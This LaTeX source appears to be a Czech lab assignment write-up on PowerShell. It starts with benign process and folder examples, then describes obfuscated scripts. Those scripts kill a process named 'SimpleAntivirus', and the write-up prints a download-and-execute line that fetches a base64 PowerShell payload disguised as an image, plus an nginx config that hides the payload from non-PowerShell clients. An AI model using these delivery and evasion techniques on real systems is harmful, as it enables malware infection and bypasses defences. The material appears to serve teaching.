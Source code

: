 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{verbatim}
# informace o vytvořeném procesu + ukončení
$app = ps -Name mspaint -ErrorAction SilentlyContinue
if(!$app) {
	$app = Start-Process mspaint -PassThru
	Write-Output "ahoj"
}
Write-Output "Name: $($app.Name)"
Write-Output $app.Path
Write-Output $app.Description
$app.Kill()

# stopnutí procesu dle názvu
Stop-Process -Name AudioPlayer
	\end{verbatim}
	
	\item Zkontrolujte, zda existuje vámi zadaná složka/cesta. Pokud neexistuje, tak ji vytvořte.
\begin{verbatim}
$dir="tmp"
if(!$(Test-Path "$dir")) {
	mkdir "$dir" > $null
}

# alternativně
New-Item -ItemType Directory -Path "$dir" -Force
\end{verbatim}

\end{enumerate}

\section*{Úkol}
Dva skripty \texttt{gen/1.ps1} a \texttt{gen/2.ps1} jsou generované skriptem \texttt{generate.ps1}.
Oba skripty používají pro obfuskaci funkci \texttt{u}, která očekává jako argument pole řetězců.
Na každý prvek pole je aplikována Caesarova šifra s posunutím dle indexu prvku.
Dešifrované bloky jsou následně spojeny do řetězce a navráceny.

Skript \texttt{gen/2.ps} dle zadání zastaví proces s názvem \texttt{SimpleAntivirus} a ukončí se v případě, že existuje definovaná cesta.
Následně se pomocí dešifrovací funkce \texttt{u} získá kód, pro stažení powershell skriptu zakodovaného v base64:
\begin{verbatim}
Invoke-Expression $([System.Text.Encoding]::UTF8.GetString(
  [System.Convert]::FromBase64String(
    (Invoke-WebRequest "https://trnila.eu/pvbs/icon.png" -UseBasicParsing)
      .Content)
  )
)
\end{verbatim}

Webový server vrací powershell skript pouze pro požadavek, který v hlavičce \texttt{User-Agent} obsahuje podřetězec \texttt{PowerShell}.
V opačném případě server vrací reálný obrázek.
Potřebná konfigurace nginx:
\begin{verbatim}
location /pvbs/ {
  set $suffix '.fake';
  if ($http_user_agent ~* "PowerShell") {
    set $suffix '';
  }

  types {} default_type "text/plain";
  try_files $uri$suffix =404;
}
\end{verbatim}
\end{document}
